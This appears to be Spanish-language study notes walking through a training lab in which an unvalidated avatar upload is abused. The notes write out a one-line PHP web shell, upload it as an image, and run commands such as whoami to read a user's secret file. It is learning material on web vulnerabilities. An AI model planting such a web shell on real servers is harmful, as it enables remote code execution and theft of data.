 En esta clase trabajamos con una funcionalidad vulnerable de subida de imágenes que no realiza ninguna validación sobre el tipo de archivo recibido. Aprovechamos esta debilidad para subir una shell web en PHP, simulando una imagen, y posteriormente accedemos a ella desde el navegador para ejecutar código en el servidor.

Esta técnica nos permite leer el contenido de archivos sensibles, en este caso extrayendo el secreto del usuario Carlos. Aprenderás a identificar el punto de entrada, crear el payload y validar que se ejecuta correctamente desde el navegador o Burp Suite.

Solucion
La web:
![[Pasted image 20250830195408.png]]
Nos logeamos y vemos que podemos subir un avatar
![[Pasted image 20250830195448.png]]
y bueno podemos crear un payload sencillo para ver si nos permite tener manejo del servidor
cmd.php
(<?php
    system($_GET['cmd']); 
?>)
![[Pasted image 20250830200105.png]]
lo cargamos
![[Pasted image 20250830200129.png]]
nos sale esto
![[Pasted image 20250830200204.png]]
si nosotros le picamos y inspeccionamos la imagen nos dara la ruta donde se almacena
![[Pasted image 20250830200307.png]]
si nos vamos a esa direccion no vamos a ver nada
![[Pasted image 20250830200421.png]]
tal que si ahora le concatenamos ?cmd=whoami
![[Pasted image 20250830200503.png]]
y ya solo ponemos la ruta que nos piden
![[Pasted image 20250830200749.png]]
ya solo proporcionamo el codigo en la pagina
![[Pasted image 20250830200919.png]]
